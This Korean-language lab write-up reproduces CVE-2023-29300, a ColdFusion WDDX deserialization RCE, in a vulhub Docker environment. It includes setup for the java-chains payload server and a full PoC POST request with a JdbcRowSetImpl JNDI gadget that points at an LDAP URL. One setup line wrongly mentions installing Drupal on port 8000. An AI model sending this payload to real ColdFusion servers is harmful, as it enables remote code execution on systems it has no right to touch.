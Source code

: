 # Adobe ColdFusion XML 역직렬화로 인한 RCE (CVE-2023-29300)
| WHS 3기 이유진

## 개요
Adobe ColdFusion은 JJ Allaire가 1995년에 만든 상용 고속 웹 애플리케이션 개발 컴퓨팅 플랫폼이다.
Adobe ColdFusion 2018 업데이트 16(및 이전 버전), 2021 업데이트 6(및 이전 버전) 및 2023.0.0.330468(및 이전 버전)은 신뢰할 수 없는 데이터의 역직렬화 취약점의 영향을 받습니다. 공격자는 임의의 세터 함수를 호출하여 임의의 명령을 실행할 수 있다.

## 환경 구축
docker compose up -d 를 실행하여 테스트 환경을 실행
your-ip:8000 에 접속하여 drupal 설치

### docker-compose.yml
```yml
services:
  coldfusion:
    image: vulhub/coldfusion:2018.0.15
    ports:
      - "8500:8500"
      - "5005:5005"
    environment:
      - password=vulhub
      - acceptEULA=YES
```

### 테스트 환경 실행
```
docker compose up -d
```

### `http://localhost:8500/` 에 접속한 page 화면

![page](./page.png)

### `http://your-ip:8500/CFIDE/administrator/index.cfm` 에 접속하여 `vulhub`으로 로그인
![page2](./page2.png)
you can install the Adobe ColdFusion successfully.

### java Chain 설치하기
```
git clone https://github.com/vulhub/java-chains
cd java-chains

 docker run -d \
  --name java-chains \
  --restart=always \
  -p 8011:8011 \
  -p 58080:58080 \
  -p 50389:50389 \
  -p 50388:50388 \
  -p 3308:3308 \
  -p 13999:13999 \
  -p 50000:50000 \
  -p 11527:11527 \
  -e CHAINS_AUTH=true \
  -e CHAINS_PASS= \
  javachains/javachains:latest

  docker logs java-chains | grep -i password # 비밀번호 확인하기
```
![javaChain](./javaChain.png)
http://localhost:8011/ 로 java chain 사용 가능 !
실행 명령어를 치고 `generate`를 누르면 LDAP URL 즉, payload url이 생성이된다.
- ex) `ldap://127.0.0.1:50389/f29660`

## PoC 
ColdFusion 서버에서 임의 코드를 실행할 수 있는 유효한 가젯을 찾는다.
- 가장 일반적인 가젯은 com.sun.rowset.JdbcRowSetImplJNDI 주입을 사용하여 명령을 실행

![javaChain](./javaChain.png)
`touch /tmp/success` 를 넣은 url을 만들어 주고 post 요청을 보낸다.

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 270
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='Ecom.sun.rowset.JdbcRowSetImplE'><var name='dataSourceName'><string>ldap://127.0.0.1:50389/597b9f</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

| LDAP 연결에서 문제가 있어 9시간 도전끝에.. 이해만 하고 넘어가기로 결정 하고 새로운 주제로 진행하였습니다... ->  [CVE-2024-4367](../../pdfjs/CVE-2024-4367/)


## 정리
CVE-2023-29300은 Adobe ColdFusion에서 발생한 XML 역직렬화 취약점으로,
공격자가 신뢰할 수 없는 데이터를 통해 서버 파일을 생성하거나 수정하는 시스템 명령어를 사용할 수 있다는 문제가 있다.

ColdFusion 서버에 대해 외부 접근을 엄격히 제한하고, WDDX 포맷 등 신뢰할 수 없는 입력에 대한 검증 및 필터링이 필요하다.

## 출처
https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300
